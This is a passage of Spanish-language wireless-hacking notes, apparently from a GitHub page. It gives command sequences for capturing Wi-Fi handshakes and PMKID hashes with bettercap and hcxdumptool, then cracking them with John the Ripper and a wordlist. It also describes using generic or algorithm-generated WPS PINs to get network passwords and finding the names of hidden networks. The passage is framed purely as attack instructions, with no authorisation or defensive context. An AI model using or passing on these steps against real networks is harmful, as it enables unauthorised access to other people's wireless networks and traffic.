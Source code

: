 Con esto conseguimos los archivos.pcap para crackearlos sin necesidad de que clientes se reconecten proporcionando un handshake.

```
> cd /opt/bettercap

> ./bettercap -iface {tarjeta de red}

> wifi.recon on

> wifi.show

> wifi.assoc all
```


## ATAQUES VIA HCXDUMPTOOL

Con este ataque aunque la red no tenga clientes nos esta pillando el hash.

```
> hcxdumptool -i {tarjeta de red} -o Captura --enable_status=1

> hcxpcaptool -z myHashes Captura

#ahora vamos a ver los hashes
> cat myHashes

#ya solo falta crackear los hashes
> john --wordlist={diccionario.txt} myHashes
```


## ATAQUE A UNA RED POR WPS

Si en una red el WPS (que es un protocolo de conectarse mas rapido) esta activo 	puedes entrar mediante un pin de 8 digitos en vez de usar la contraseña. 

`PARA ESTO USAREMOS WPS PIN GENERATOR`

OPCION 1:

1. Introducir el canal o el tiempo

2. Fijarse en aquellos AP que en la columna "Generico" tengan SI y seleccionarl la red


OPCION 2: (probar pin generico calculado por algoritmo)

1. En el momento que el pin sea correcto en la consola aparecera la contraseña de la 	red en texto claro


## ATAQUES A REDES OCULTAS - COMO DESCUBRIR Y COMPROMETER UNA RED OCULTA

Si estas snifando el tráfico de una red, en el primer prove recuest de un cliente viaja el ESSID de la red en texto claro. También Aircrack lo suele encontrar de forma automática.
